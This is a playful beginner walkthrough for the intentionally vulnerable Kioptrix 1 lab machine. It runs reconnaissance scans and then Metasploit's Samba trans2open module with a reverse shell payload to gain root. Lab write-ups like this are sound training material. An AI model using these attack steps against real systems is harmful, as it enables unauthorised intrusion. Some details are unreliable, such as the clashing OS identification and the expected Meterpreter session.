

# The Kioptrix 1 Heist:Steal The Flag ,Earn The Glory

Gear up, young hackers! White J here and welcome to our epic adventure through the vulnerable machine, Kioptrix 1
Your task,should you choose to accept it, is to infiltrate Kioptrix 1, exploit its weakness, and claim victory by claiming root access. Your tools-VirtualBox/Vmware,Kali(or your preffered hacking distro), some basic Linux skills and some pentesting know-how, don't worry,WhiteJ's here to guide you

The difficulty level can be considered beginner friendly but it does contains multiple, realistic vulnerabilities so stay sharp and don't get too cocky 😎. Download the [Kioptrix 1 Machine here](https://download.vulnhub.com/kioptrix/Kioptrix_Level_1.rar) and get ready to unleash your inner cybersecurity warrior.

## Setting Up Your Environment
Before we dive in, we need our attacking machine to communicate with the victim’s machine. VirtualBox (VBox) remains my go-to
We have two options:
NatNetwork: Create a new NatNetwork connection for both machines so they can chat easily.
###### OR 
Bridged Network: Use a bridged network, making sure both machines connect to the same adapter.With the right setup, we’ll be ready to jump into some exciting penetration testing

Firstly find your IP address using **ifconfig**

```sh
ifconfig
```
we need to determine the IP address of the target machine by running an arp scan or netdiscover

```sh 
"sudo arp-scan -l"
```

#### Or

``` sh 
"sudo netdiscover -i eth0 -r <Ip address range>.0/24 "
```

Another key step after establishing the connection is to verify the machine's internet access with a ping scan (many guides just expect you to know this!).
Start by doing a quick ping scan—commonly to Google—to see how packets are sent and received.


Next, ping the victim's IP address to confirm the host is active and can communicate.


Alright, we’re all set:
Communication check ✔️✔️✔️
Internet connection check ✔️✔️✔️

## Gathering Information with Nmap

Let's start gathering some juicy information about our target system using Nmap. We'll use the following command to scan for open ports and identify the services running on those ports:
```sh
nmap -sV -sC -A -p- <Victim's IP address>
```


Based on the results from the Nmap scan, we observe the following open ports and services:

| **PORT** | **SERVICE**       | **VERSION**                                                      |
|----------|-------------------|------------------------------------------------------------------|
| 22       | SSH               | OpenSSH 2.9p2 (protocol 1.99)                                    |
| 80       | HTTP              | Apache HTTPD 1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL |
| 111      | RPCBind           | Version 2                                                       |
| 139      | NetBIOS-SSN       | Samba smbd (Workgroup: MYGROUP)                                  |
| 443      | SSL/HTTPS         | Apache HTTPD 1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL |
| 1024     | Status            | RPC service (RPC #100024)                                       |

The operating system is detected as **Linux 2.4.X** (likely embedded), specifically **Ubuntu Linux 20**.

##  Nikto Scan

Using Nikto to check  web vunerabilities

```sh
"sudo nikto -h http://<Ip Address of Victim Machine>"

```

 

We see couple of vulnerable and outdated protocol versions that looks juicy

## HTTP Pages – Let’s Have a Peek!

Alright, let’s take a little tour of the HTTP pages that Nmap discovered. Spoiler alert: It's not the Louvre, but it’s still fun!

### **Port 80 – The Default Apache Page (Yawn...)**

  
Yep, just your classic, default Apache page. Not much happening here, but hey, it's *still* a web page!

---

### **What about the source page, anything?–The Secret Hidden Gem? (Maybe?)**


What’s this? Something interesting? Maybe, maybe not. We’ll just have to keep guessing!

---

### **test/php – Another One? Let’s See…**

  

Looks like this one's giving us a bit more action. Still not sure if it’s a secret lair or just a page no one bothered to take down!

## Let’s Dig Deeper – Gobuster to the Rescue!

Time to play detective! Let’s search for hidden directories using Gobuster.

```sh
gobuster dir -u http://<ip address> -w /usr/share/dirbuster/wordlists/directory
```
  
Well, that was a bit of a letdown. No hidden treasures here—just the same old, same old. No secret pages, no hidden directories. Maybe next time,Gobuster


## Gaining Shell Access with msfconsole

Alright, let’s get our hands dirty! We’ve mapped out the target, found some open ports, and now it’s time to break in and gain shell access. Enter **msfconsole**, our trusty Metasploit framework, ready to exploit vulnerabilities and give us a foothold in the system.

```sh
msfcosole
```
  

We’re going to launch an exploit, pick the right payload, and get that sweet shell access. Think of this like unlocking a door to a new world—except this door is on a remote system, and we have the key

## Getting a Shell via SMB with msfconsole

Alright, let’s get down to some SMB shenanigans! SMB (Server Message Block) is typically used for file sharing, but sometimes it just wants to be a little *too* helpful and lets us sneak right in. We’ll use **msfconsole** to take advantage of a juicy SMB vulnerability and grab ourselves a shell.

### The Game Plan:
**Spot the SMB service**: We already found SMB chilling on port 139 during our scan. But we need to know the  version it is running

```sh
search smb_version
```
 

So we found out the version, **Samba 2.2.1a**. Now let's check for its weakness


Indeed it is vulnerable to **trans2open overflow** which allows for remote buffer. Now that is reallllll juicyyy 

```sh
search trans2open
use 1

```

Now we just have to  dig through the meterpreter and find the best exploits to use, configure-Set the target (RHOST-target IP ), the payload, and hit that exploit button.

```sh
set rhost <target IP address>
```


Set the payload to a reverse shell (because who doesn't love a good reverse shell?)

```sh
set payload generic/shell_reverse_tcp
```
 **Shell, Here We Come**: If all goes well, we’ll get a Meterpreter session and voila—control of the system!. Now, let’s hit "run" 

```sh
run
```


and — ta-da! 🎉
we are in! Got the root shell in no time.


## And That’s a Wrap! 🎉

Congratulations! You've just pwned Kioptrix 1 like a pro. With some clever Nmap scans, a sprinkle of Metasploit magic, and a dash of persistence, you've earned yourself a shiny new root shell. 

It's all in a day’s work for a hacker-in-training, right? 😎

Remember, every machine you conquer is another step closer to becoming a cybersecurity ninja. Keep hacking, keep learning, and most importantly... stay curious! 🚀

Until next time, happy pentesting! WhiteJ👾🔓
